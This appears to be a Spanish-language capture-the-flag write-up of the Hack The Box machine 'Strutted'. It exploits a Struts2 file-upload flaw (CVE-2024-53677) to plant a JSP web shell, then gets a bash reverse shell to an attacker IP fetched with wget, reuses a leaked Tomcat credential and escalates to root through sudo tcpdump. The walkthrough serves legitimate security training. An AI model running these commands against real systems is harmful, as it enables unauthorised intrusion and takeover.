 ```yaml
---
title: HTB Strutted Writeup
date: 2025-03-18 19:39:50 -05:00
author: retxus
categories: [HTB, Linux]
tags: [Linux, http, Information leakage, Arbitrary file upload (malicioso JSP file), CVE-2024-53677, abusing sudo privulege(tcpdump)]
comments: false
image:
  path: /assets/img/HTB-Strutted/Strutted.png
---
```


Muy buenas con todos, el día de hoy voy a resolver la máquina `Strutted` de HTB, espero que el procedimiento sea de su agrado y fácil de comprender.

## Reconocimiento

Primero vemos si tenemos conexión con la máquina y de paso gracias al `ttl` identificamos ante el tipo de máquina que estamos, en `linux` este suele ser de 64 y en `windows` de 128.

```bash
ping -c 1 10.10.11.59
PING 10.10.11.59 (10.10.11.59) 56(84) bytes of data.
64 bytes from 10.10.11.59: icmp_seq=1 ttl=63 time=104 ms

--- 10.10.11.59 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 104.352/104.352/104.352/0.000 ms
```

Vemos que el `ttl` de la máquina es de 63, el cual está próximo a 64 por ende nos encontramos ante una máquina `Linux`.

Ahora, con la herramienta `rustscan` lanzamos un escaneo en donde vamos a enumerar los puertos que se encuentran abiertos en la máquina.

```bash
rustscan -a 10.10.11.59 --ulimit 5000 -r 1-65535 -- -sS -sCV -Pn -oN target
```

Guardamos la información en un archivo. (Siempre se recomienda llevar registro de lo que se realiza)

```bash
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBJ+m7rYl1vRtnm789pH3IRhxI4CNCANVj+N5kovboNzcw9vHsBwvPX3KYA3cxGbKiA0VqbKRpOHnpsMuHEXEVJc=
|   256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIOtuEdoYxTohG80Bo6YCqSzUY9+qbnAFnhsk4yAZNqhM
80/tcp open  http    syn-ack ttl 63 nginx 1.18.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Strutted\xE2\x84\xA2 - Instant Image Uploads
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Se nos reporta que el puerto `22` y `80` están abiertos, si nos dirigimos a la web con la `IP`, vemos que esta nos redirige a un dominio, por ende se está aplicando `Resolucion DNS`, nuestra máquina no sabe a qué hace referencia ese dominio, así que lo agregamos al `/etc/hosts`.

```bash
127.0.0.1	localhost
::1		localhost
127.0.0.1	machinename.localhost	machinename

10.10.11.59 strutted.htb
```

### Enumeración

En la web vemos un apartado para subir archivos de tipo imagen y también tenemos un apartado de `descarga`, al darle clic, se nos baja un archivo `.zip`, si lo descomprimimos para ver su contenido podemos ver que lo que parece ser el código fuente de la `web`.

![](/assets/img/HTB-Strutted/1_Strutted.png)

Dentro del `tomcat-users.xml` tenemos un usuario con su credencial, pero no llegamos a ningún lado con eso. Tenemos también un archivo `Dockerfile`, así que podemos suponer que la `web` está desplegada con un contenedor, o parte de ella. En la carpeta `strutted` hay un archivo `pom.xml`, este ya pinta más interesante, podemos ver módulos, dependencias y demás cosas que usa la web, algo que me llama la atención es `strust2.version (6.3.0.1)`, buscando un poco nos encontramos con <a href="https://attackerkb.com/topics/YfjepZ70DS/cve-2024-53677">esta</a> vulnerabilidad interesante, donde mediante un `Arbitrary file upload` podemos subir algún archivo malicioso que nos interese.

### Subida arbitraria de archivos (CVE-2024-53677)

En esta ocasión usaremos <a href="https://caido.io/">caido</a> para capturar la petición y poder manipularla. Podemos subir cualquier archivo, al fin de cuentas, vamos a jugar con los primeros bytes del archivo para hacerle pensar a la `web` que se trata de un tipo de imagen.

![](/assets/img/HTB-Strutted/2_Strutted.png)

Vemos que la vulnerabilidad se ejecuta, ahora vamos a tratar de subir una `web_shell.jsp`, podemos hacer uso de <a href="https://github.com/tennc/webshell/blob/master/fuzzdb-webshell/jsp/cmd.jsp">esta</a>.

![](/assets/img/HTB-Strutted/3_Strutted.png)

Vemos que fue exitoso, nos dirigimos a la ruta don se subió el archivo y vemos que podemos ejecutar comandos `RCE`.

![](/assets/img/HTB-Strutted/4_Strutted.png)

### Obteniendo la primera shell

Ahora vamos a ganar acceso al sistema obteniendo una shell, nos montamos un servido con `python` y subimos un archivo en `bash` para poder obtener una `shell` interactiva.

```bash
echo '#/bin/bash\n\nbash -c "bash -i >& /dev/tcp/10.10.14.235/4444 0>&1"' > bash.sh

python -m http.server 8080
```

En la `web` donde tenemos el `.jsp` nos descargamos el archivo, le damos los permisos necesarios, lo ejecutamos con `bash` y logramos ganar acceso.

```bash
wget http://{IP}:8080/bash.sh -O /tmp/bash.sh

chmod 777 /tmp/bash.sh

bash /tmp/bash.sh
```

![](/assets/img/HTB-Strutted/5_Strutted.png)

Ahora estamos como el usuario `tomcat` dentro de la máquina, una vez dentro hacemos el tratamiento de la `tty`.

```bash
script /dev/null -c bash
Ctrl + z
stty raw -echo; fg
export TERM=xterm-256color
source /etc/skel/.bashrc
```

Para tener las proporciones adecuadas dentro de la `shell` en una ventana de nuestro terminal hacemos `stty size` y en la shell de la víctima ponemos `stty rows {YOUR_ROWS_NUMBER} columns {YOUR_COLUMNS_NUMBER}`.

## Migrando a otro usuario

Si listamos el `/etc/passwd` vemos otro usuario `james`, al probar las credenciales obtenidas de `tomcat-users.xml`, vemos que no son válidas. Si listamos dentro de `/var/lib/tomcat9/conf`, nos encontramos con otro archivo `tomcat-users.xml`, en donde hay otra credencial.

![](/assets/img/HTB-Strutted/6_Strutted.png)

Si la probamos con `su james`, no es posible conectarse, pero aún tenemos `ssh` y al tratar vemos que efectivamente logramos ganar acceso como `james` con esa credencial y una vez dentro podemos ver el `user.txt`.

## Escalada de privilegios.

Si listamos nuestro privilegio a nivel de `sudo`, vemos que podemos ejecutar `tcpdump` como `root` sin proporcionar contraseña, en <a href="https://gtfobins.github.io/gtfobins/tcpdump/#sudo"GTFObins</a> nos indican una forma de como podemos escalar nuestro privilegio, yo lo que hice fue asignar permisos `SUID` al binario `/bin/bash`.

```bash
COMMAND='chmod +s /bin/bash' & TF=$(mktemp) & echo "$COMMAND" > $TF & chmod +x $TF & sudo /usr/sbin/tcpdump -ln -i lo -w /dev/null -W 1 -G 1 -z $TF -Z root
```

Ejecutamos el binario como el propietario y ahora ya podemos ver la `root.txt`

![](/assets/img/HTB-Strutted/7_Strutted.png)
